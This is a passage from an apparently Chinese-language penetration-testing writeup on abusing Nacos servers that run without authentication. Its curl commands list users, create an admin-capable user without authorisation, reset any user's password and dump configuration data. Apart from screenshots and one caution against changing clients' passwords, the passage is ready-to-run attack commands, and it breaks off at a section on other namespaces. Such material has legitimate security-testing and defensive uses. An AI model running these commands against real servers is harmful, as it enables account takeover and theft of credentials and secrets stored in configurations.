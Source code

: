 ```shell
curl 'http://ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=9&search=blur' -H 'User-Agent: Nacos-Server'
或
curl 'http://ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=9&search=accurate' -H 'User-Agent: Nacos-Server'
```

![image](https://user-images.githubusercontent.com/84888757/209051343-79f014f7-6837-4cb8-8f52-6c3951631093.png)

![image](https://user-images.githubusercontent.com/84888757/209051375-7f94c8a4-c205-4c07-9ad3-99ad0a938637.png)

在未开启鉴权的情况下，不加 `User-Agent` 也可以，后续的示例就都不加 `User-Agent` 了，我们仅讨论未开启鉴权的几种接口的利用。
```shell
http://ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=9&search=blur
```

![image](https://user-images.githubusercontent.com/84888757/209051623-fbe7f34f-2846-4404-a753-75a48c6e6b7a.png)

## 3.2 未授权添加用户
```shell
curl -X POST 'http://ip:8848/nacos/v1/auth/users?username=test2&password=test2'
```

![image](https://user-images.githubusercontent.com/84888757/209051802-b20658ca-fe24-4104-87ad-b6da989707a5.png)

然后可以使用 `test2/test2` 登录。

![image](https://user-images.githubusercontent.com/84888757/209051850-2bccfc7f-6bb2-4bb7-b3f6-87a3bbc8c52c.png)

## 3.3 任意用户密码更改
实战中最好还是不要修改客户的密码。
```shell
curl -X PUT 'http://ip:8848/nacos/v1/auth/users?accessToken=' -H 'User-Agent:Nacos-Server' -d 'username=test1&newPassword=test2'
```

## 3.4 获取配置数据-默认 public Namespace
```
http://ip:8848/nacos/v1/cs/configs?search=accurate&dataId=&group=&pageNo=1&pageSize=99
```
或者
```shell
curl -X GET 'http://ip:8848/nacos/v1/cs/configs?search=blur&dataId=&group=&pageNo=1&pageSize=99'
```

![image](https://user-images.githubusercontent.com/84888757/209052012-79bdfcc1-1504-4371-a160-1683817780a6.png)

## 3.5 获取其他Namespace的配置数据

然而使用者完全可以不把数据放到默认的 `public namespace`，而是自己新建一个 `namespace` ，再把新的相关配置放在里面。
